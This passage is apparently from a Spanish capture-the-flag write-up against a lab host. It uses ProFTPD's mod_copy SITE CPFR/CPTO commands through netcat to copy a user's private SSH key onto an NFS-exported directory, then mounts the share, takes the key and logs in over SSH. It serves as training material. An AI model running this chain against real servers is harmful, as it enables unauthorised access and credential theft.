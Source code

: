 Sabemos que el servicio FTP se está ejecutando como el usuario Kenobi (desde el archivo en el recurso compartido) y se genera una clave ssh para ese usuario.

Ahora vamos a copiar  la clave privada de Kenobi usando los comandos SITE CPFR y SITE CPTO.

#### Copiar la llave privada, usando la info para explotar la vulnerabilidad

```
nc 10.10.207.144 21                                               
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.207.144]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
^C

```

Sabíamos que el directorio /var era un montaje visible (tarea 2, pregunta 4). Por lo tanto, hemos movido la clave privada de Kenobi al directorio /var/tmp.

#### montamos la share y la copiamos

- creamos un directorio para el montaje y montamos, luego listamos para ver que se haya montado

```
sudo mkdir /mnt/kenobi

sudo mount 10.10.207.144:/var /mnt/kenobi

ls -la /mnt/kenobi/  
total 56
drwxr-xr-x 14 root root  4096 Sep  4  2019 .
drwxr-xr-x  3 root root  4096 Mar 20 12:29 ..
drwxr-xr-x  2 root root  4096 Sep  4  2019 backups
drwxr-xr-x  9 root root  4096 Sep  4  2019 cache
drwxrwxrwt  2 root root  4096 Sep  4  2019 crash
drwxr-xr-x 40 root root  4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff 4096 Apr 12  2016 local
lrwxrwxrwx  1 root root     9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root _ssh  4096 Sep  4  2019 log
drwxrwsr-x  2 root mail  4096 Feb 26  2019 mail
drwxr-xr-x  2 root root  4096 Feb 26  2019 opt
lrwxrwxrwx  1 root root     4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root  4096 Jan 29  2019 snap
drwxr-xr-x  5 root root  4096 Sep  4  2019 spool
drwxrwxrwt  6 root root  4096 Mar 20 12:28 tmp
drwxr-xr-x  3 root root  4096 Sep  4  2019 www

```

### copiamos la lleve, cambiamos permisos y usamos
```
cp /mnt/kenobi/tmp/id_rsa .

sudo umount /mnt/kenobi

sudo chmod 600 id_rsa 

ssh -i id_rsa kenobi@10.10.207.144

The authenticity of host '10.10.207.144 (10.10.207.144)' can't be established.
ED25519 key fingerprint is SHA256:GXu1mgqL0Wk2ZHPmEUVIS0hvusx4hk33iTcwNKPktFw.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:10: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? 
```